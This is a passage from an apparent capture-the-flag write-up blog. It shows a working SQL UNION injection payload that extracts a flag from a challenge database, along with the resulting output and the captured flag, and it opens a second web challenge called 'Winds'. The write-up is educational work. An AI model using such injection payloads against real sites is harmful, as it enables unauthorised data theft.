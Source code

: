 This returned:
```html
<tr>
	<td>flag</td>
	<td>c</td>
</tr>
```

We can get all the values from the flag column in the other table using:
```SQL
item=Otamatone' UNION SELECT 'a', flag,'c' FROM flags2cdc14366379a92e44d8f438ff39afe6--
```

This prints out the flag!
```html
<tr>
	<td>actf{37619bbd0b81c257b70013fa1572f4ed}</td>
	<td>c</td>
</tr>
```

Two summers ago, this challenge would have taken me hours. It's amazing to see how quickly I was able to find the information I needed to solve this challenge. I'm excited to see what I'll be doing two summers from now!

To remedy this exploit, simply sanitize the user input using a reputable sql sanitization library.
## Winds

Jekyll interprets `{` as special syntax, so some of the inputs are incorrect. If running this yourself, make sure to remove any `\` chars in front of a `{`.

We get a simple website that takes a user input, scrambles it, then displays it:
![assets/images/blog/week9/wind-page.png](assets/images/blog/week9/wind-page.png)
<br>
![assets/images/blog/week9/wind-page-scrambled.png](assets/images/blog/week9/wind-page-scrambled.png)
